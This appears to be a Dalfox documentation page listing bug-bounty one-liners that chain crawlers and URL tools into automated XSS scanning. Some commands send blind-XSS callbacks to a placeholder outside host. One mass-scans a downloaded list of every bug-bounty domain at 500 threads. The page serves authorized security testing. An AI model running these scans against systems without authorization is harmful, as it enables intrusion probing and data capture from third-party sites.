 ```yaml
---
title: OneLiner
permalink: /docs/tips/oneliner/
nav_order: 1
toc: true
layout: page
---
```


> A fast, powerful, one-line

* Scanning XSS from host / from [@cihanmehmet in awesome-oneliner-bugbounty](https://github.com/dwisiswant0/awesome-oneliner-bugbounty)
```
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```
* [Automating XSS using Dalfox, GF and Waybackurls](https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75)
```
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```
* [Find XSS and Blind XSS, and send every request to burpsuite for more manual testing
](https://twitter.com/Alra3ees/status/1407058456323014659)
```
dalfox file hosts --mining-dom  --deep-domxss --ignore-return -b 'YOURS.xss.ht' --follow-redirects --proxy http://127.0.0.1:8080
```
* [dalfox scan to bugbounty targets / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#dalfox-scan-to-bugbounty-targets-1)
```
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
```
* [Recon subdomains and gau to search vuls DalFox / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#recon-subdomains-and-gau-to-search-vuls-dalfox)
```
assetfinder testphp.vulnweb.com | gau |  dalfox pipe
```
